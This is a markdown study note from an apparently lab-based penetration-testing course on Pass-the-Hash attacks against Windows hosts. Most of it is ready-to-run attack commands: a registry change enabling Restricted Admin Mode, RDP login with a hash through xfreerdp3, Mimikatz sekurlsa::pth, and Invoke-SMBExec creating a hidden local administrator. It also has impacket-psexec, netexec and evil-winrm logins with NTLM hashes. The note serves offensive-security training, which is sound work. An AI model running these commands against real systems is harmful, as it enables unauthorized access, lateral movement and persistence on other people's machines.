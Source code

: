 We can authenticate to windows machines using a users password hash. This is caused by NTLM authentication being turned on
### RDP
`Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with the following error:
![[Pasted image 20250115053938.png]]
Enable Restricted Admin Mode to Allow PtH
```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

PtH with xfreerdp3
```bash
xfreerdp3  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```
### Mimikatz
```powershell
.\mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64f12cddaa88057e06a81b54e73b949b /domain:inlanefreight.htb /run:cmd.exe" exit
```
- `/user` - The user name we want to impersonate.
- `/rc4` or `/NTLM` - NTLM hash of the user's password.
- `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
- `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).
### Invoke-TheHash
Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer

When using [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash), we have two options: SMB or WMI command execution. To use this tool, we need to specify the following parameters to execute commands in the target computer:

- `Target` - Hostname or IP address of the target.
- `Username` - Username to use for authentication.
- `Domain` - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
- `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
- `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

```powershell
Import-Module .\Invoke-TheHash.psd1

Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```
### Impacket, Netexec, Evil-Winrm
```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453

netexec smb 172.16.1.0/24 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453 --local-auth -x whoami

evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

### UAC Limits Pass the Hash for Local Accounts
UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.
> [!NOTE] Note
> There is one exception, if the registry key `FilterAdministratorToken` (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account. 
https://posts.specterops.io/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy-506c25a7c167